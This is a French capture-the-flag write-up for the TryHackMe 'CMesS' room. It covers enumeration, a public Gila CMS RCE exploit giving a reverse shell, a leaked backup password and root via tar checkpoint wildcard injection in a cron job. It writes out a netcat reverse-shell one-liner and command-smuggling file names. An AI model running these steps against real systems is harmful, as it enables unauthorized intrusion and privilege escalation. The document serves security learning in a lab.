 # THM CMesS
De l'exploit, de l'énumération, de la recherche. Une bonne room sympatoche !

IP : 10.10.41.234

# Enum
## Nmap:
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-10 09:20 EST
Nmap scan report for 10.10.41.234
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds
```
## subdomain enumeration :
```
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                                                                          

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```
Je retrouve donc ici un subdomain dev.cmess.thm

Une fois ajouter dans le fichier hosts, on retrouve bien une page derrière avec des informations utiles !
```
Development Log
andre@cmess.thm

Have you guys fixed the bug that was found on live?
support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: ***********
```

On a donc le compte pour acceder a l'admin panel
Compte :

```
andre@cmess.thm
**************
```
# RCE
La version de Gila est la 1.10.9, celle-ci est vulnérable et une RCE est exploitable. 

L'exploit ce trouve ici: https://www.exploit-db.com/exploits/51569

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/CMesS]
└─$ python3 51569.py

 ██████╗ ██╗██╗      █████╗      ██████╗███╗   ███╗███████╗    ██████╗  ██████╗███████╗                                                                                         
██╔════╝ ██║██║     ██╔══██╗    ██╔════╝████╗ ████║██╔════╝    ██╔══██╗██╔════╝██╔════╝                                                                                         
██║  ███╗██║██║     ███████║    ██║     ██╔████╔██║███████╗    ██████╔╝██║     █████╗                                                                                           
██║   ██║██║██║     ██╔══██║    ██║     ██║╚██╔╝██║╚════██║    ██╔══██╗██║     ██╔══╝                                                                                           
╚██████╔╝██║███████╗██║  ██║    ╚██████╗██║ ╚═╝ ██║███████║    ██║  ██║╚██████╗███████╗                                                                                         
 ╚═════╝ ╚═╝╚══════╝╚═╝  ╚═╝     ╚═════╝╚═╝     ╚═╝╚══════╝    ╚═╝  ╚═╝ ╚═════╝╚══════╝                                                                                         
                                                                                                                                                                                
                              by Unknown_Exploit                                                                                                                                
                                                                                                                                                                                
Enter the target login URL (e.g., http://example.com/admin/): http://cmess.thm/admin
Enter the email: andre@cmess.thm
Enter the password: ***********
Enter the local IP (LHOST): {MON IP}
Enter the local port (LPORT): 4444
File uploaded successfully.
```
Et nous voila avec un revshell 
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                 
listening on [any] 4444 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 36216
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html/tmp$
```

# Privesc
On farfouillant un peu on retrouve dans le dossier /opt un fichier intéressant
```
www-data@cmess:/$ cd /opt
www-data@cmess:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak 
andres backup password
UQf*******
```
Nous voila désormais connecter en tant qu'andre 
```
www-data@cmess:/opt$ su andre
Password: 
andre@cmess:/opt$ 
```
On trouve le 1er flag dans le home de andre :
```
andre@cmess:~$ cat user.txt 
thm{c52**************************}
```
# Privesc to root !
J'importe lse et l'executer. Il trouve quelque chose d'intéressant dans les taches cron :
```
[!] ret060 Can we write to executable paths present in cron jobs........... yes!
---
/etc/crontab:*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Dans le dossier backup, on retrouve une fichier note qui indique :
```
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up!
```
On va utilise les checkpoints de tar pour executer un shell.

1) On créer le shell
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MON IP} 1234 >/tmp/f" > shell.sh
```
2) On configurer les checkpoint
```
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh shell.sh"
```
3) On ouvre un listener sur notre machine
```
nc -lnvp 1234
```
4) On attend que la tache cron s'executer .
Et nous voila root
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                       
listening on [any] 1234 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 39532
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
Le flag est toujours au même endroit
```
# cat /root/root.txt    
thm{9f****************************}
```
